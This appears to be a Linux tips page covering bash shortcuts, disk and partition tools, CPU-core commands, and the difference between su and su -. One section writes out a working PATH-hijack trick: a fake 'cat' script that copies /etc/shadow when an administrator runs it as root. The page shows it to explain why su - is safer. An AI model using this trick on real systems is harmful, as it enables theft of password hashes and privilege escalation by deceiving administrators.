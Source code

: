 ### Linux Tips and Tricks
### Navigating the command line

1. Ctrl+a move to beginning of line
2. Ctrl+e move to end of line
3. Ctrl+left arrow/ alt+b/ move back one word
4. Ctrl+right arrow/ alt+c move forward one word
5. Ctrl+k deletes text from cursor to end of line
6. Ctrl+x deletes text from cursor to beginning of line
7. Ctrl+d exits the bash shell



### Interrogate the system for drive partition and storage info
#### fdisk
This will show the partitions but also a bunch of the loops involved in device mounting and the output will be hard to read.

#### sfdisk
Similar output and can also display the size of paritions in mb

#### cfdisk (curses based)
Output will be similar to fdisk and sfdisk above but in a nice table format listing the: device(partition name)/ start sector/ end sector/ total sectors on the partition/ total partition size and filesystem type.
This outpt is clear, concise and immediately useful.

#### parted
Command line utility for partition manipulation. Beyond the scope of this tips document.

#### df
Disk Free. Outputs filesystem information, size of the partition, storage used/ storage available/ % used/ partition mounted on etc

#### pydf
Almost identical to df but more visually appealing. With colors.

#### lsblk
This command lists out all the storage blocks, which includes disk partitions and optical drives including the mount point and size of the drive. This command also shows the drives and partitions in a tree format much like the tree command,

#### blkid
Prints the block device (partitions and storage media) attributes like uuid and file system type. Does not report the space on the partitions.

#### hwinfo 
The hwinfo command is a general purpose hardware information tool and can be used to print out the disk and partition list. The output however does not print details about each partition like some of the other commands above.

# su - vs su
su - invokes a login shell after switching the user. A login shell resets most environment variables, providing a clean base.

su just switches the user, providing a normal shell with an environment nearly the same as with the old user.

# Beware of rogue developers
Something like this could happen:

Imagine, you're a software developer with normal user access to a machine and your ignorant admin just won't give you root access. Let's (hopefully) trick him.

$ mkdir /tmp/evil_bin
$ vi /tmp/evil_bin/cat
#!/bin/bash
test $UID != 0 && { echo "/bin/cat: Permission denied!"; exit 1; }
/bin/cat /etc/shadow &>/tmp/shadow_copy
/bin/cat "$@"
exit 0

$ chmod +x /tmp/evil_bin/cat
$ PATH="/tmp/evil_bin:$PATH"
Now, you ask your admin why you can't cat the dummy file in your home folder, it just won't work!

$ ls -l /home/you/dummy_file
-rw-r--r-- 1 you wheel 41 2011-02-07 13:00 dummy_file
$ cat /home/you/dummy_file
/bin/cat: Permission denied!
If your admin isn't that smart or just a bit lazy, he might come to your desk and try with his super-user powers:

$ su
Password: ...
cat /home/you/dummy_file
Some important dummy stuff in that file.
exit
Wow! Thanks, super admin!

$ ls -l /tmp/shadow_copy
-rw-r--r-- 1 root root 1093 2011-02-07 13:02 /tmp/shadow_copy
He, he.

You maybe noticed that the corrupted $PATH variable was not reset. This wouldn't have happened, if the admin invoked su - instead.


You can use one of the following command to find the number of physical CPU cores including all cores on Linux:
- lscpu command.
- cat /proc/cpuinfo.
- top or htop command.
- nproc command.
- hwinfo command.
- dmidecode -t processor command.
- getconf _NPROCESSORS_ONLN command.

